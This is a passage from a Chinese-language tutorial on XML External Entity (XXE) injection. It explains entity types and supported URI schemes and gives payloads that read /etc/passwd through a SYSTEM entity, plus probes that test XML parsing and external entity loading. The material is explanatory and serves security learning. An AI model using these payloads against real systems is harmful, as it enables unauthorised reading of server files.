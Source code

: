 注意：%name（参数实体）是在DTD中被引用的，而&name（其余实体）是在xml文档中被引用的。

由于xxe漏洞主要是利用了DTD引用外部实体导致的漏洞，那么重点看下能引用哪些类型的外部实体。

#### 外部实体

外部实体即在DTD中使用

```
<!ENTITY 实体名称 SYSTEM "URI">
```

语法引用外部的实体，而非内部实体，那么URL中能写哪些类型的外部实体呢？

主要的有file、http、https、ftp等等，当然不同的程序支持的不一样：

![image-20230928155343780](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230928155343780.png)

实例演示：

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
    <!ENTITY content SYSTEM "file:///etc/passwd">]>
<foo>
        <value>&content;</value> 
</foo>
```

### xxe漏洞

XXE(XML External Entity Injection)即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，

没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、

发起dos攻击等危害。xxe漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件。

#### 漏洞检测

**首先**检测XML是否会被成功解析：

```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE ANY [  
<!ENTITY name "my name is nMask">]>    
<root>&name;</root>
```

若页面输出`my name is nMask`则说明xml可以被解析

**随后**检测服务器是否支持DTD引用外部实体

```xml
<?xml version=”1.0” encoding=”UTF-8”?>  
<!DOCTYPE ANY [  
<!ENTITY % name SYSTEM "http://localhost/index.html">  
%name;  
]>
```
